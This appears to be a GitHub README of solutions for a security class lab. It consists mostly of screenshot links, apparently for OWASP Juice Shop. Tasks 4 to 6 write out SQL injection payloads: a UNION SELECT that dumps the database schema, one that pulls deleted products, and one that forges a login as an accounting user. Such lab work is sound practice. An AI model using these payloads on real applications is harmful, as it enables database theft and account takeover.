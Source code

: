 <img width="1919" height="1023" alt="image" src="https://github.com/user-attachments/assets/5cf6c8fa-f2c3-455c-8820-7b3111dd056a" /># Kelas-KWA-2025

## No.1
<img width="1918" height="971" alt="image" src="https://github.com/user-attachments/assets/2eb5ef33-c4b1-44c7-9f8c-d193c7fb04a1" />

## No.2
<img width="1919" height="968" alt="Screenshot 2025-09-04 150835" src="https://github.com/user-attachments/assets/eaf0c87a-5d98-4f74-a5cc-539f785e00b0" />
<img width="1919" height="970" alt="Screenshot 2025-09-04 151418" src="https://github.com/user-attachments/assets/d4bcca33-de6c-47b2-8ac0-0df6804d2727" />

## No.3
<img width="1919" height="965" alt="image" src="https://github.com/user-attachments/assets/63583369-dbc8-44d0-ad41-2248258d70c5" />
<img width="1919" height="968" alt="Screenshot 2025-09-04 152031" src="https://github.com/user-attachments/assets/604c5cbd-3701-422c-905d-e68a3c8b0a8e" />

## No.4
`test')) UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, sql FROM sqlite_schema--`
<img width="1919" height="962" alt="image" src="https://github.com/user-attachments/assets/4a144335-5c6f-4822-86aa-cc19449003ac" />
<img width="1919" height="1014" alt="image" src="https://github.com/user-attachments/assets/58bce8d9-8062-49b7-bab5-e663dd076a41" />
<img width="1919" height="1017" alt="image" src="https://github.com/user-attachments/assets/1d826845-dea5-486e-b0aa-4c42b5de1650" />
<img width="1919" height="1016" alt="image" src="https://github.com/user-attachments/assets/33c8d34a-cc45-4744-a246-39b645b35c0a" />

## No.5
`test')) UNION SELECT * FROM PRODUCTS WHERE deletedAt IS NOT NULL--`
<img width="1918" height="1020" alt="image" src="https://github.com/user-attachments/assets/d10b4abf-7fd8-4146-a4a3-e74352702877" />
<img width="1919" height="1026" alt="Screenshot 2025-09-04 210824" src="https://github.com/user-attachments/assets/bc7ab96f-b4f2-42d6-921c-933c14991089" />
<img width="1918" height="1014" alt="image" src="https://github.com/user-attachments/assets/ffb42cd2-30cc-49b1-a2b8-2ab1db38c51d" />
<img width="1919" height="1015" alt="image" src="https://github.com/user-attachments/assets/8bf1e155-35e7-4d97-9fb6-4356c4b2bcc0" />
<img width="1919" height="1021" alt="image" src="https://github.com/user-attachments/assets/88989bf7-6c8e-45a7-9d8c-9c87d09221e3" />

## No.6
`{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "123456789"
}`
<img width="1918" height="1016" alt="image" src="https://github.com/user-attachments/assets/bc05c9a4-6fe3-4e51-bd1c-45074d98e965" />
<img width="1917" height="1014" alt="image" src="https://github.com/user-attachments/assets/c99d395a-877b-414b-b8de-ea74736c831c" />
<img width="1918" height="1018" alt="image" src="https://github.com/user-attachments/assets/e1e95065-b6b7-44a4-83c5-2af504866b14" />
